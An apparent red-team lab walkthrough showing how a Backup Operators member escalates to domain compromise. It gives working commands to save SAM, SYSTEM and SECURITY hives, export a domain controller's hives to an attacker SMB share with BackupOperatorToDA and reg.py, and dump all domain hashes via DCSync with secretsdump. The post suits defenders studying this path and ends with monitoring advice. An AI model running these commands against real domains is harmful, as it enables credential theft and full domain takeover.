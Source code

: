```yaml
---
title: "Domain Privilege Escalation Backup Operators Group"
date: 2024-02-12 00:00:00 +0000
categories: 
  - Domain Privilege Escalation
  - Active Directory
  - RedTeam
---
```


# Windows Built-in Groups 

Windows Built-in Groups are predefined groups that come preconfigured with Windows operating systems. These groups serve specific purposes and are used for managing permissions, access, and security within the Windows environment. Some common built-in groups include:

1. Administrators: Members of this group have full control over the computer. They can perform administrative tasks, install software, modify system settings, and manage other users and groups.
2. Users: Regular users who have limited privileges on the system. They can use most software and change system settings that do not affect other users or the security of the computer.
3. Guests: Limited access accounts for users who require temporary or occasional access to the system. Guest accounts typically have very restricted permissions.
4. Backup Operators: As mentioned earlier, members of this group can perform backup and restore operations on the system, including backing up and restoring files and directories.
5. Power Users: A legacy group in older versions of Windows, members of this group had more privileges than regular users but fewer than administrators. This group is deprecated in newer versions of Windows.
6. Remote Desktop Users: Members of this group are allowed to log in to the system remotely using Remote Desktop Protocol (RDP).
7. Network Configuration Operators: Members of this group have permissions to perform network configuration tasks on the computer, such as modifying network settings and installing network drivers.
These built-in groups provide a convenient way to manage access and permissions on Windows systems, allowing administrators to assign appropriate rights to users and groups based on their roles and responsibilities.
## Backup Operators
The Backup Operators group is a built-in group in Microsoft Windows operating systems. This group is designed to grant users limited privileges to perform backup and restore operations on the system, including the ability to back up and restore files and directories, regardless of their permissions. Members of the Backup Operators group can perform tasks such as backing up the entire system, backing up files and directories, and restoring files and directories. This group is useful in environments where individuals need to perform backup and restore tasks without having full administrative privileges on the system.

### Lab Configuration 
#### Setting Up Privilege on Domain Controller


[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-1.png)](https://r00tven0m.github.io/)

Let’s configure the lab on the server to apply theory and escalated windows server privileges. Go to server manager dashboard then click on “**Tools**” then select “**Active Directory Users and Computers**

We are going to add a user Serena.Alla to the active directory security group for the demonstration. To do that, go to **“users**” select “**Serena.Alla**” and click on “**properties**”.

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-2.png)](https://r00tven0m.github.io/)

That will open a new window where we need to click on the “ **member of** “ tab and then click on the “**add**” button to add user to any specific group.

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-3.png)](https://r00tven0m.github.io/)
A new window will open where we need to select object types as “**Groups or Built-in security principals**” and select location to domain name which is “**cbank. local**” here. Then, we need to enter object name which is the group to that we wish to add user to. In this case, we are using the **Backup Operators’** group then click ok.

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-4.png)](https://r00tven0m.github.io/)


We can verify whether a user is added to the backups operators’ group by simply clicking on the **members of** tab. We can see that we have successfully added user Serena.Alla to backups operators’ group.

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-5.png)](https://r00tven0m.github.io/)



## Enumeration With PowerView.ps1

#### Enumerating AD Users

```powershell
Get-DomainUser -Identity Serena.Alla -Domain cbank.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,acco
```
[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-6.png)](https://r00tven0m.github.io/)
#### Enumerating AD Groups

```powershell
Get-DomainGroupMember -Identity 'Backup Operators'
OR 
Get-DomainGroupMember -Identity 'Backup Operators' | select GroupName,MemberName,MemberDomain,GroupDistinguishedName
```


[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-7.png)](https://r00tven0m.github.io/)
#### Backing up SAM and SYSTEM,security Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`
```powershell
reg save hklm\sam c:\Temp\sam.sav
reg save hklm\system C:\Users\serena.alla\Documents\system.sav
reg save hklm\security C:\Users\serena.alla\Documents\security.sav
```

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-8.png)](https://r00tven0m.github.io/)

### secretsdump.py 

```bash
impacket-secretsdump LOCAL -system system.sav -sam sam.sav
```

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-9.png)](https://r00tven0m.github.io/)

but we get hashes local users we need get all hash DC

#### Attacking a Domain Controller  with [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

The [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) is a proof of concept written in C++ which can target domain controllers using an account which is part of the Backup Operators group. The proof of concept can export the registry hives into C:\temp_ path or into a UNC share.

```powershell
net use G: \\192.168.56.1\test /u:test test
.\BackupOperatorToDA-x64.exe -t \\dc01.cbank.local -o G:\\
```
[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-11.png)](https://r00tven0m.github.io/)

#### Aonther Way Attacking a Domain Controller  with  [reg.py](https://github.com/horizon3ai/backup_dc_registry/blob/main/reg.py "reg.py")


```bash
python3 reg.py Serena.Alla:'Password123'@192.168.56.100 backup -p '\\192.168.56.1\test'
```

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-12.png)](https://r00tven0m.github.io/)

```bash
impacket-secretsdump LOCAL -system SYSTEM -sam SAM -security SECURITY
```

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-13.png)](https://r00tven0m.github.io/)

Nice We Can get hash MACHINE ACCOUNT `DC01$` 
Now the NTLM hash for the Domain Controller has been extracted.
Now we will provide the NT hash to the secretsdump tool along with the name of the Domain Controller to extract all users present in the Active Directory environment with their respective hashes via a file. The machine account credentials could then be used to DCSync domain credentials.

```bash
impacket-secretsdump cbank.local/'dc01$'@dc01.cbank.local -hashes :c8d2d1f95b533d6326baf3cccdb81d10
```

[![Image Alt Text](//home/r00tv/Tools/r00tven0m.github.io/assets/img/posts/Domain Privilege Escalation/Backup Operators/2024-02-13-14.png)](https://r00tven0m.github.io/)

# In Conclusion

Backup Operators is a privileged group, and should be monitored and protected in a similar manner to Enterprise/Domain administrator groups.

`We have reached the end of the article.`
